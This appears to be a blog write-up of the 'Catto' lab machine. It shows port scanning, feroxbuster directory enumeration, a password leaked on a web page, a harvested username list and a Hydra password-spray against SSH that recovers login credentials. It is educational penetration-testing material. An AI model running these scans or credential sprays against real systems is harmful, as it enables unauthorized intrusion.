

repository: gmrvh/blog · page: pg/catto/index.html · generator: mkdocs

# Catto - Writeup

## Initial Enumeration

### Port Scanning
A comprehensive port scan revealed multiple open ports:
```
PORT      STATE    SERVICE   VERSION
8080/tcp  open     http      nginx 1.14.1
18080/tcp open     http      Apache httpd 2.4.37 ((centos))
30330/tcp open     http      Node.js Express framework
42022/tcp open     ssh       OpenSSH 8.0 (protocol 2.0)
43751/tcp open     unknown
45455/tcp open     http      Node.js Express framework
50400/tcp open     http      Node.js Express framework
```

Notable findings:
- SSH running on non-standard port 42022
- Multiple web servers running on different ports
- Several Node.js Express instances

### Web Enumeration
I examined each web server to identify potential attack vectors:

1. Port 8080 (Nginx):
```bash
feroxbuster -u http://192.168.150.139:8080 -w /usr/share/wordlists/dirb/common.txt
```
- Found `/assets` and `/images` directories
- Discovered a `/download` endpoint

2. Port 18080 (Apache):
```bash
feroxbuster -u http://192.168.150.139:18080 -w /usr/share/wordlists/dirb/common.txt
```
- Found a `/backup` directory containing LaTeX templates and slides
- Discovered templates: `slides_template.tex`, `php_info.tex`, `actual_slide.tex`

3. Port 30330 (Node.js Express):
```bash
feroxbuster -u http://192.168.150.139:30330 -w /usr/share/wordlists/dirb/common.txt
```
- Found `/static` and `/icons` directories
- Discovered a Minecraft-related subdirectory

## Gaining Initial Access

### Finding Credentials
Through further enumeration of the Express server on port 30330, I discovered:
- A Minecraft configuration page at: `http://192.168.150.139:30330/new-server-config-mc`
- This revealed a potential password: `WallAskCharacter305`

I also found a list of potential usernames at: `http://192.168.150.139:30330/minecraft`
```
keralis
xisuma
zombiecleo
mumbojumbo
sabel
yvette
zahara
sybilla
marcus
tabbatha
tabby
```

### SSH Brute Force
I created a username list from the found names and used Hydra to try the discovered password:
```bash
hydra -s 42022 -L users.txt -p WallAskCharacter305 192.168.150.139 ssh
```

This revealed working credentials:
- **Username**: marcus
- **Password**: WallAskCharacter305
